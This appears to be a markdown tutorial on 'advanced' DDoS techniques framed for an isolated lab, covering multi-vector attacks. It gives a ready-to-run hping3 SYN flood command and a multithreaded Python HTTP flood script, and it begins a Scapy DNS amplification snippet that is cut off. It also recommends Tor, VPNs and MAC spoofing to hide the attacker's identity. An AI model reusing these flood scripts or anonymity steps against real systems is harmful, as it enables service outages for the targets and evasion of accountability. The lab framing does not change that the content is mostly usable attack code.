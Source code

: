 # Advanced DDoS Attack Methods: Real-World Techniques for Educational Labs

These advanced methods reflect techniques used by cybersecurity experts (both attackers and defenders) in real-world scenarios. We’ll focus on stealthy, high-impact, and resource-efficient attacks, using tools and custom scripts. All experiments must be conducted in an isolated lab environment (e.g., host-only network in VirtualBox) to avoid legal issues.

## 1. Recap: Your Lab Setup

- **Environment**: Kali Linux VM (attacker), Ubuntu/Metasploitable VM (target), host-only network.
- **Tools**: `hping3`, Scapy, Slowloris, `proxychains`, Tor, `macchanger`.
- **Anonymity**: VPN/Tor for IP hiding, `macchanger` for MAC spoofing, custom DNS (e.g., 1.1.1.1 or local BIND9) to prevent leaks.
- **Safety**: Ensure no traffic leaves your lab (use `tcpdump` or Wireshark to confirm).

## 2. Advanced DDoS Methods

These methods are more sophisticated than basic SYN or UDP floods, leveraging amplification, botnets, or application-layer vulnerabilities.

### a. Multi-Vector Attacks

- **Concept**: Combine multiple attack types (e.g., SYN flood + HTTP flood + DNS amplification) to overwhelm different layers of the target’s stack simultaneously.
- **Real-World Use**: Used by advanced attackers (e.g., Mirai botnet) to bypass mitigation systems like WAFs or IDS.
- **How It Works**:
  - Flood TCP stack with SYN packets.
  - Overload application layer with HTTP requests.
  - Amplify traffic via UDP-based DNS/NTP queries.
- **Tools**:
  - `hping3` for SYN flood.
  - Slowloris for HTTP flood.
  - Scapy for DNS amplification.
- **Lab Implementation**:
  1. **SYN Flood**:
     ```bash
     hping3 -S --flood -p 80 <target_IP>
     ```
  2. **HTTP Flood with Custom Python**:
     ```python
     import requests
     import threading
     target_url = "http://<target_IP>"
     def http_flood():
         while True:
             try:
                 headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"}
                 requests.get(target_url, headers=headers)
                 print("Sent HTTP request")
             except:
                 pass
     for _ in range(50):  # 50 threads
         threading.Thread(target=http_flood).start()
     ```
  3. **DNS Amplification**:
     ```python
     from scapy.all import *
     target_ip = "<target_IP>"
     dns_server = "<lab_dns_server_IP>"
